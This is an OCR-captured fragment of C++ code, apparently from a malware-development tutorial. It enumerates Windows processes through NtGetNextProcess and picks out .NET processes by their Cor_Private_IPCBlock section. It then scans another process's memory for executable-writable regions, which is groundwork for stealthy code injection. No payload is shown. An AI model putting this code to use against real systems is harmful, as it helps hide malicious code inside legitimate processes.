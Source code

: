 ```cpp
  POBJECT_ATTRIBUTES ObjectAttributes
);

HANDLE findMyProc(const char * procname) {
  int pid = 0;
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // resolve function addresses
  fNtGetNextProcess_t myNtGetNextProcess = (fNtGetNextProcess_t) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");
  fNtOpenSection_t myNtOpenSection = (fNtOpenSection_t) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtOpenSection");

  // loop through all processes
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
    GetProcessImageFileNameA(current, procName, MAX_PATH);
    if (lstrcmpiA(procname, PathFindFileNameA(procName)) == 0) {
      pid = GetProcessId(current);
      
      // check for "\\BaseNamedObjects\\Cor_Private_IPCBlock_v4_<PID>" section
      UNICODE_STRING sName;
      OBJECT_ATTRIBUTES oa;
      HANDLE sHandle = NULL;
      WCHAR procNumber[32];

      WCHAR objPath[] = L"\\BaseNamedObjects\\Cor_Private_IPCBlock_v4_";
      sName.Buffer = (PWSTR) malloc(500);

      // convert INT to WCHAR
      swprintf_s(procNumber, L"%d", pid);

      // and fill out UNICODE_STRING structure
      ZeroMemory(sName.Buffer, 500);
      memcpy(sName.Buffer, objPath, wcslen(objPath) * 2);   // add section name "prefix"
      StringCchCatW(sName.Buffer, 500, procNumber);      // and append with process ID
      sName.Length = wcslen(sName.Buffer) * 2;    // finally, adjust the string size
      sName.MaximumLength = sName.Length + 1;    
      
      InitializeObjectAttributes(&oa, &sName, OBJ_CASE_INSENSITIVE, NULL, NULL);
      NTSTATUS status = myNtOpenSection(&sHandle, SECTION_QUERY, &oa);
      if (NT_SUCCESS(status)) {
        CloseHandle(sHandle);
        break;
      }
    }
  }

  return current;
}



int findRWX(HANDLE h) {

  MEMORY_BASIC_INFORMATION mbi = {};
  LPVOID addr = 0;

  // query remote process memory information
  while (VirtualQueryEx(h, addr, &mbi, sizeof(mbi))) {
    addr = (LPVOID)((DWORD_PTR) mbi.BaseAddress + mbi.RegionSize);

    // look for RWX memory regions which are not backed by an image
```